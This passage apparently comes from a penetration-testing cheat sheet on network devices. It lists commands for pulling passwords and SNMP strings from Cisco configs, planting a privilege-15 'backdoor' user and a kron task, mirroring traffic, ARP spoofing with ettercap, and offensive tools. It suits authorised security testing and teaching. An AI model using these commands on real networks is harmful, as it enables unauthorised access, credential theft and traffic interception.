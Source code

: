 ```bash
# Extract hashed passwords from configs
grep -i "password\|secret" config.txt

# Cisco enable secret (Type 5 - MD5)
# Can be cracked with hashcat or john

# Cisco enable password (Type 7)
# Easily decrypted

# Extract SNMP community strings
grep -i "snmp-server community" config.txt
```

### Persistence

```bash
# Create backdoor user (Cisco)
enable
configure terminal
username backdoor privilege 15 secret password123
line vty 0 4
login local

# Schedule task (Cisco)
kron occurrence BACKDOOR at 2:00 recurring
policy-list BACKDOOR_POLICY

# Firmware modification (advanced)
# Requires deep knowledge and access
```

### Traffic Interception

```bash
# Port mirroring (SPAN)
# Cisco example
monitor session 1 source interface Gi0/1
monitor session 1 destination interface Gi0/2

# Capture traffic
tcpdump -i eth0 -w capture.pcap

# ARP spoofing on network
ettercap -T -M arp:remote /target_ip/ /gateway_ip/
```

## Network Device Security Testing Tools

### Specialized Tools

- **RouterSploit**: Exploitation framework for embedded devices
- **Cisco Auditing Tool (CAT)**: Cisco device security scanner
- **Cisco Global Exploiter (CGE)**: Cisco vulnerability scanner
- **SIET**: Smart Install Exploitation Tool
- **Yersinia**: Layer 2 attack framework
